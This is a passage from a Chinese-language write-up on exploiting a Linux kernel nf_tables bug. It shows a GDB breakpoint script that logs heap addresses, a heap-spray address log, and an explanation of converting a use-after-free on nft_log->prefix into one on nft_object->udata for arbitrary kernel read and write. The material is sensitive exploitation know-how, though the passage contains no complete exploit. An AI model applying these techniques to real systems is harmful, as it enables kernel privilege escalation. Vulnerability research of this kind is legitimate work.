 ```c
def newrule_cb(bp):
    rule = get_symbol_address("rule")
    print("[new_rule] 0x{:08x}".format(rule))
    return False

newrule_bp = WrapperBp("net/netfilter/nf_tables_api.c:3526", cb=newrule_cb)

def add_set_elem_cb(bp):
    elem = get_symbol_address("elem.priv")
    print("[add_set_elem] 0x{:08x}".format(elem))
    return False

add_set_elem_bp = WrapperBp("net/netfilter/nf_tables_api.c:6154", cb=add_set_elem_cb)
```

部分日志如下

log rule 和 pwn\_set 的 elem 的堆喷布局看起来用的大小应该是 0x80

```plaintext
[new_rule] 0xffff88810dd7a300
[new_rule] 0xffff88810dd7ad00
[new_rule] 0xffff88810dd7ad80
[add_set_elem] 0xffff88810dd7a980
[new_rule] 0xffff88810dd7a280
[new_rule] 0xffff88810dd7a800
[new_rule] 0xffff88810dd7ab00
[new_rule] 0xffff88810dd7a200
[new_rule] 0xffff88810dd7a480
[new_rule] 0xffff88810dd7a380
[new_rule] 0xffff88810dd7a500
[new_rule] 0xffff88810dd7af00
[new_rule] 0xffff88810dd7a580
[new_rule] 0xffff88810dd7ae80
[new_rule] 0xffff88810dd7a900   ---> elem 前面的 rule
[new_rule] 0xffff88810dd7aa80
[new_rule] 0xffff88810dd7aa00   ---> elem 后面的 rule
[new_rule] 0xffff88810dd7ab80
```

‍

### 任意地址读写

至此我们将漏洞转换为了 nft\_log-&gt;prefix 的 UAF ，该内存通过 GFP\_KERNEL 分配且大小可控，prefix 是一个字符串用起来不方便，使用 `nft_object->udata`​ 占位后，通过 nft\_log 释放 prefix，转换为 udata 的 UAF

```c
static int nf_tables_newobj(struct sk_buff *skb, const struct nfnl_info *info,
                const struct nlattr * const nla[])
{

    if (nla[NFTA_OBJ_USERDATA]) {
        obj->udata = nla_memdup(nla[NFTA_OBJ_USERDATA], GFP_KERNEL);
        if (obj->udata == NULL)
            goto err_userdata;

        obj->udlen = nla_len(nla[NFTA_OBJ_USERDATA]);
    }
```
